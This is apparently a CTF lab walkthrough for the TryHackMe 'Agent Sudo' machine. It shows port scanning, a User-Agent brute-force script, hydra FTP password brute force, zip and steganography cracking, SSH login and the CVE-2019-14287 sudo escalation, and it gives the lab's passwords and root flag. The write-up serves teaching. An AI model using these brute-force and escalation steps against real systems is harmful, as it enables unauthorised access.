










---

# 🕵️ Agent Sudo — TryHackMe Walkthrough

> A complete step-by-step write-up for the TryHackMe **Agent Sudo** CTF machine.  
> This machine focuses on **web exploitation, steganography, credential discovery, and Linux privilege escalation.**

---
## 📌 Machine Info

| Field      | Value         |
| ---------- | ------------- |
| Name       | Agent Sudo    |
| Platform   | TryHackMe     |
| Difficulty | Easy          |
| OS         | Linux         |
| IP         | 10.49.148.155 |
### Challange:
`https://tryhackme.com/room/agentsudoctf`

---
## 🎯 Objective

Gain root access by:
- Bypassing a restricted website using a custom **User-Agent**
- Extracting hidden credentials from images
- Logging in via **SSH**
- Exploiting a vulnerable **sudo** configuration

---
## 🔍 Step 1 — Port Scan

```bash
nmap -sV 10.49.148.155 -oN nmap_result


Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-25 18:13 IST
Nmap scan report for 10.49.148.155
Host is up (0.055s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.83 seconds
```

```
**Open Ports**
21/tcp  FTP
22/tcp  SSH
80/tcp  HTTP
```

---

## 🌐 Step 2 — Website Enumeration

The website displays:


> Use your own **codename as User-Agent** to access the site.

This means the server only responds if a valid **User-Agent** header is sent.

---
## 🧪 Step 3 — User-Agent Brute Force

```python
import requests
import string

payload = list(string.ascii_uppercase)
url = "http://10.49.148.155/"

for i in payload:
    headers = {"User-Agent": i}
    r = requests.get(url, headers=headers)
    if "Use your own codename" not in r.text:
        print(r.text, i)
```

Valid agent found:

```
Agent C
```

Visiting:

```
http://10.49.148.155/agent_C_attention.php
```

Reveals:

```
Attention chris...
Your password is weak!
```

We now have:

```
Username: chris
```

---
## 🔐 Step 4 — FTP Brute Force

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.49.148.155 ftp
```

Result:

```
chris : crystal
```

---
## 📁 Step 5 — FTP Files

Files found:

```
cute-alien.jpg
cutie.png
To_agentJ.txt
```
 
 To_agentJ.txt :
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

The message hints that credentials are hidden inside images.

---

## 🧬 Step 6 — Extract ZIP from cutie.png

```bash
binwalk -e cutie.png
```
Extracted file:

```
8702.zip
```

Crack it:
```bash
zip2john 8702.zip > zip_hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash
```

Password:
```
alien
```

Inside:
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

Decode:

```bash
echo QXJlYTUx | base64 -d
```

Result:
```
Area51
```

---
Other Method using brute force:
## 🖼️ Step 7 — Steganography
```bash
stegseek cute-alien.jpg /usr/share/wordlists/rockyou.txt
```

```
Extracted message:
```

- SSH  login password is 
```SSH
hackerrules!
```

---
## 🔑 Step 8 — SSH Login

```bash
ssh james@10.49.148.155
```

```bash
cat user_flag.txt
```


---

## 🚀 Step 9 — Privilege Escalation


Check sudo version:

```bash
sudo --version
```

```
Sudo 1.8.21p2
```

This version is vulnerable to **CVE-2019-14287**.


Exploit:

```bash
sudo -u#-1 /bin/bash
```

---

## 🏁 Step 10 — Root Flag

```bash
cat /root/root.txt
```

```
b53a02f55b57d4439e3341834d70c062
```

---

## 🏴‍☠️ Final Results

|Level|Credential|
|---|---|
|FTP|chris : crystal|
|SSH|james : hackerrules!|
|Root|sudo -u#-1|

---

## 🧠 Skills Learned

- HTTP header manipulation
    
- FTP brute forcing
    
- Steganography
    
- Password cracking
    
- Linux privilege escalation
    
---
## 🧑‍💻 Author

Ghost- Cybersecurity Learner & CTF Player

---
